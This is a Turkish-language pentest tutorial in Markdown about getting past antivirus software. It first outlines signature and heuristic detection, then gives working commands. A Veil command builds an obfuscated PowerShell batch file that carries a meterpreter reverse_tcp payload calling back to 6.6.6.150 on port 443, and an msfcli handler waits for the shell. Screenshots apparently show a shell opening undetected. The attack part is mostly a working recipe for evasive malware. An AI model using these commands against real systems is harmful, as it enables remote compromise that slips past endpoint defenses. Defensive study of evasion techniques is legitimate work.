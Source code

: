 ### Antivirüs Uygulamalarını Atlatma

#### Antivirus Bypass Teknikleri ve Tanınmaz Meterpreter Ajanı Oluşturma

Pentest çalışmalarında, hedef sistemi ele geçirdikden sonra yetkisiz işlevleri yerine getirecek bir payload'a ihtiyaç duyulur. Bu bir casus yazılım olabilir (trojan), uzakdan yönetim aracı olabilir (rat) veya hedef sistemde kod/komut çalıştırmanıza olanak sağlayan bir araç  (shellcode exec) olabilir.

BGA pentest ekibi, pentest çalışmalarında ve eğitimlerde multi platform çalışan ve gelişmiş özellikleri olan meterpreter payloadını sıklıkla tercih etmektedir.

Antivirus veya sezgisel antilogger'lar bu tür durumlarda işinizi zorlaştırabilir. Bu yazıda, antiviruslerin çalışma prensiblerine kısaca değinilmiş ve meterpreter ajanının antivirusler tarafından tanınmaz hale getirilmesi teorik olarak anlatılmıştır. Burada anlatılan yöntemler, backtrack 5 r2 üzerinde test edilmiştir ve meterpreter için geçerlidir fakat bu mantık  benzeri yazılımlar içinde uygulanabilir !

__Antivirüsler Nasıl Çalışır?__

* İmza tabanlı (Signature Based)
* ShellCode Analizi
* Sezgisel (heuristic)

__İmza tabanlı (Signature Based)__

* Her imza bir zararlının karakteristik özelliklerini barındırır.
* Tespit edilmiş viruslere ait imzaları içerir.
* Hızlı sonuç verir.
* Yeni nesil viruslere karşı savunmasızdır.
* Zararlının tespit edilmesi, veritabanına konulması ve son kullanıcıya ulaşması yeni nesil tehtitler karşısında ciddi zaman kaybı yaşatmakdadır.

__Sezgisel (heuristic)__

* Zararlıyı, sezgisel ve gerçek zamanlı davranış analizi yaparak tespit etmeye çalışır.

#### Veil kullanarak Sızma Testlerinde Antivirüs Atlatma 

Penetrasyon testlerinde sıklıkla antivirus uygulamalarının atlatılması ihtiyacı doğmaktadır. Çeşitli encoding yöntemleri kullanılarak antivirus yazılımları atlatılabilmektedir. Msfpayload, Msfencode, Msfvenom benzeri yazılımlar ile istenilen özelliklerde zararlı yazılım üretmek mümkündür. Aşağıda bunlara alternatif ve oldukça başarılı bir uygulama olan VEIL ile bu işlemin nasıl gerçekleştirilebileceğine değinilmiştir.

Windows işletim sistemleri üzerinde çalışan antiviruslere yakalanmayan batch file oluşturmak için aşağıda ki ilgili komutları çalıştırması yeterlidir. 6.6.6.150 ipsine 443 portu üzerinden reverse bağlantı kurarak erişim sağlanacaktır.

Öncelikle aşağıdaki komut kullanılarak batch file oluşturulabilir. İlgili komut çalıştırıldıktan sonra .bat uzantılı zararlı uygulamamız oluşmuş olacaktır.

```ShellSession
root@kali:#  veil -l powershell -p VirtualAlloc -o undetectable --msfpayload windows/meterpreter/reverse_tcp --msfoptions LHOST=6.6.6.150 LPORT=443
```

![ANTIVIRUS](../resim/ataklar/antivirus/1.png)

![ANTIVIRUS](../resim/ataklar/antivirus/2.png)

Windows üzerinde batch dosyasını çalıştırmadan önce lokal makinamızda 443 portu metasploit ile dinleme moduna alıyoruz.

Aşağıdaki komut ile  443 portunun dinleme moduna alınması sağlanmıştır. Payload olarak reverse_tcp kullanılmıştır.

```ShellSession
root@kali:#  msfcli exploit/multi/handler PAYLOAD=windows/meterpreter/reverse_tcp LHOST=6.6.6.150 LPORT=443 E
```

![ANTIVIRUS](../resim/ataklar/antivirus/3.png)

Windows üzerinde undetectable.bat dosyamızı çalıştırıyoruz. Çalıştırmamızla birlikle meterpreter shell bizi karşılıyor.

![ANTIVIRUS](../resim/ataklar/antivirus/4.png)

Zararlının çalıştırıldığı sistem üzerindeki antivirüsün zararlıyla ilgili herhangi bir bloklama işlemi gerçekleştirmediği aşağıda görülebilmektedir.

![ANTIVIRUS](../resim/ataklar/antivirus/5.png)

Bu şekilde antivirüs atlatılarak mevcut sisteme en üst seviyede erişim sağlanmış olacaktır. 

[KAYNAK](http://blog.bga.com.tr/2014/02/veil-kullanarak-szma-testlerinde.html)

##### DAHA FAZLASI İÇİN

* [Antivirüs Programları Nasıl Çalışır?](http://www.elektrikport.com/teknik-kutuphane/antivirus-programlari-nasil-calisir/11475)
* [Kendi Backdoor'unuzu Oluşturun](http://onuraktas.net/kendi-backdoorunuzu-olusturun/)
* [Antivirüs Atlatma(Bypass)](https://www.youtube.com/watch?v=jGbV9c26N5k)